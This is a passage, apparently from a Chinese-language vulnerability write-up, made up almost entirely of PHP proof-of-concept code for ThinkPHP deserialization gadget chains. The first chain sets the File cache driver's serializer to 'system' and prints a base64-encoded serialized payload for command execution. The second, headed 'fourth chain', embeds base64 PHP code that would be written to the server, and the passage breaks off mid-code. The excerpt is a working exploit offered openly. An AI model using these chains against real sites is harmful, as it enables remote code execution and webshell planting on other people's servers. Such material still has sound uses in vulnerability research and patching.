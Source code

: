 ```
        public function __construct()
        {
            $this->store = new File();
        }
    }
    echo base64_encode(serialize(new CacheStore()));
}

namespace think\cache {
    abstract class Driver
    {
    }
}

namespace think\cache\driver {

    use think\cache\Driver;

    class File extends Driver
    {
        protected $options = [
            'expire'        => 0,
            'cache_subdir'  => true,
            'prefix'        => '',
            'path'          => '',
            'hash_type'     => 'md5',
            'data_compress' => false,
            'tag_prefix'    => 'tag:',
            'serialize'     => ['system'],
        ];
    }
}

```

# 第四条链子

POC

```
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = "aaaPD9waHAgcGhwaW5mbygpOz8+";
    }
}

namespace think\filesystem {

    use League\Flysystem\Cached\Storage\AbstractCache;
    use think\cache\driver\File;

    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $key = "1";
        public function __construct()
        {
            $this->store = new File();
        }
```